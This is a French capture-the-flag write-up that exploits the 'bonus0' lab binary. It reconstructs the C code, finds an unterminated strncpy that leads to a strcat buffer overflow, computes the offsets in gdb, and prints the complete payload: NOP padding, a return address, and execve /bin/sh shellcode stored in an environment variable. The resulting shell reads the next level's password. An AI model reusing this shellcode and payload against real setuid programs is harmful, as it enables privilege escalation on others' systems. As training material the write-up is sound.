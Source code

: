 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
/home/user/level8
total 17
dr-xr-x---+ 1 level8 level8   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level8 level8  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level8 level8 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
-rw-r--r--+ 1 level8 level8   65 Sep 23  2015 .pass
-rw-r--r--  1 level8 level8  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus0` :

```bash
$ ./bonus0
 -
da
 -
b
da b
```

Sans succès, je me penche dès lors sur la décompilation.
J'utilise [Dogbolt](https://dogbolt.org/?id=e155fda2-581f-4305-ad94-25b044fdefd5#BinaryNinja=114&Reko=89) afin de décompiler le binaire du `bonus0`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
unsigned short *a = 32;

void p(char *string, char *string2)
{
    char buffer[4096];

    puts(string2);
    read(0, buffer, 4096);
    *strchr(buffer, '\n') = 0;
    strncpy(string, buffer, 20);
}


void pp(char *string)
{
    char buffer[20];
    char buffer2[20];

    p(buffer2, " - ");
    p(buffer, " - ");

    strcpy(string, buffer2);

    string[strlen(string)] = *a;

    strcat(string, buffer);
}

int main()
{
    char buffer[42];

    pp(buffer);
    puts(buffer);

    return 0;
}
```

Je ne remarque pas d'appel système ici, il s'agirait donc d'exécuter du code arbitraire. Je cherche la vulnérabilité possible.

Je remarque une faille possible dans `p()` :

```c
strncpy(string, buffer, 20);
```

Cette ligne copie 20 caractères de buffer dans string ce qui est sa taille, en revanche le null terminator n'est pas ajouté par strncpy, donc, si buffer écrit 20 caractères ou plus, alors string ne sera pas null terminated et pointera donc sur string2.

Dans `pp()` :

```c
    strcpy(string, buffer2);
```

On voit qu'ici, `string` va prendre la valeur de `buffer2`, mais comme il vient d'être altéré sans null terminator par `p()`, et bien il copiera également le contenu de `buffer` puisqu'il est adjacent dans la mémoire.

Cela donnera à `string` une taille de 40 bytes, et sa taille maximale est 42 bytes, or, à la fin de `pp()` :

```c
    strcat(string, buffer);
```

Va ajouter les 20 bytes de `buffer` à `string` et va donc causer un overflow sur 19 bytes.

J'utilise `gdb` afin de déterminer la taille de la stack et savoir combien de bytes de padding sont nécessaire afin de ré-écrire l'adresse de retour de `main()` :

```h
$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave <------------------ breakpoint avant de leave
   0x080485cb <+39>:    ret
End of assembler dump.
(gdb) b *main+38
Breakpoint 1 at 0x80485ca
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -

 -

Breakpoint 1, 0x080485ca in main ()
(gdb) info registers
...
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff738       0xbffff738
...
```

Je fais le calcul du padding avec : `ebp` - `esp` soit `0xbffff738 - 0xbffff6f0= 0x48 = 72` bytes.

Je soustrais la différence de la position du buffer dans la stack : 

```h
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp 
   0x080485ad <+9>:     lea    0x16(%esp),%eax <------------ ici
```

Soit `0x48 - 0x16 = 0x32 = 50` bytes. Cela me donne le nombre de bytes pour atteindre `ebp`, j'ajoute 4 bytes pour atteindre la `return address` soit 54 bytes de padding avant de pouvoir ré-écrire sur cette dernière et devenir la nouvelle adresse de `ret` pour `main()`.

Je dois bien prendre en compte que mon payload va être re-structuré par l'exécution du binaire et l'espace que j'ai :

- 20 bytes sur `buffer2` puisque je n'ai plus la null termination
- 19 bytes sur `buffer` + 1 pour la null termination
- 2 bytes "restant" sur le buffer d'origine dans `main()`
- 19 bytes à nouveau puisque `buffer` est re-concatené

J'atteint l'adresse de retour au bout de 54 bytes, et j'en ai 59 possible à l'écriture, il faut donc que je place l'adresse de retour de mon exploit 5 bytes avant la fin du buffer.

Mon payload ressemblerait donc à `buffer2 + buffer1 + buffer1`, il me faudrait donc le construire ainsi :

```h
'\x90' * 20 + '\x90' * 14 + adresse sur 4 bytes + '\x90'
```

Cela devrait placer l'adresse au (20 + 14 + 4 + 1 + 14 = 54ème) bytes.
Etant donné que je n'ai que 4 bytes, je ne peux pas utiliser la méthode `Ret2Libc`, mais je peux utiliser `Ret2Shellcode` en utilisant l'adresse du [shellcode](https://shell-storm.org/shellcode/files/shellcode-827.html) stocké dans une variable environnement avec un `NOP sled` le précédant, pour l'alignement :

```bash
$ export BYE=$'\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Ayant fait l'erreur dans `Override`, je ne la reproduis pas ici, en nomant ma variable environnement sur 4 bytes afin d'obtenir l'adresse du début du `NOP sled` et non de son nom, et ajoute le `$` pour gérer les escape sequence `\x`.

Je récupère l'adresse de la variable environnement dans la mémoire du binaire :

```h
$ gdb ./bonus0 -q
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/100s environ
...
0xbfffff1d:      "BYE=\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
...

(gdb) x/100x 0xbfffff1d
0xbfffff1d:     0x42    0x59    0x45    0x3d    0x90    0x90    0x90    0x90
0xbfffff25:     0x31    0xc0    0x50    0x68    0x2f    0x2f    0x73    0x68
0xbfffff2d:     0x68    0x2f    0x62    0x69    0x6e    0x89    0xe3    0x50
0xbfffff35:     0x53    0x89    0xe1    0xb0    0x0b    0xcd    0x80    0x00
0xbfffff3d:     0x4c    0x49    0x4e    0x45    0x53    0x3d    0x35    0x31
0xbfffff45:     0x00    0x53    0x48    0x4c    0x56    0x4c    0x3d    0x32
0xbfffff4d:     0x00    0x48    0x4f    0x4d    0x45    0x3d    0x2f    0x68
0xbfffff55:     0x6f    0x6d    0x65    0x2f    0x75    0x73    0x65    0x72
0xbfffff5d:     0x2f    0x62    0x6f    0x6e    0x75    0x73    0x30    0x00
0xbfffff65:     0x4c    0x4f    0x47    0x4e    0x41    0x4d    0x45    0x3d
0xbfffff6d:     0x62    0x6f    0x6e    0x75    0x73    0x30    0x00    0x53
0xbfffff75:     0x53    0x48    0x5f    0x43    0x4f    0x4e    0x4e    0x45
0xbfffff7d:     0x43    0x54    0x49    0x4f
```

Je vois mon `NOP sled` à la fin de la première adresse, et prend donc la seconde : `0xbfffff25` dont le premier byte `\x31` correspond bien au premier byte de mon shellcode.

Je peux donc tenter de construire mon payload :

```python
python -c 'print "\x90" * 20'; python -c 'print "\x90" * 14 + "\xbf\xff\xff\x25"[::-1] + "\x90"'
```

Ce qui remplis le premier buffer de `NOP`, puis le second de 14 bytes de `NOP` et enfin l'adresse qui pointe sur le shellcode, puis 1 byte qui correspondait a la null termination du buffer (1).

Je l'essaye :

```bash
$ (python -c 'print "\x90" * 20'; python -c 'print "\x90" * 14 + "\xbf\xff\xff\x25"[::-1] + "\x90"'; cat) | ./bonus0
 -
 -
����������������������������������%���� ��������������%����
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
